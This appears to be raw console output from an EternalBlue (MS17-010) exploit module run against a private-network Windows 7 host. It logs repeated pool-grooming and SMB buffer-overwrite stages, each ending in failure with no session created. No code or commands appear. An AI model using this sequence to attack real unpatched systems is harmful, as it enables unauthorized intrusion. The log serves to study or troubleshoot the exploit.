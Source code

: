 [*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 17 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 22 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Exploit completed, but no session was created.
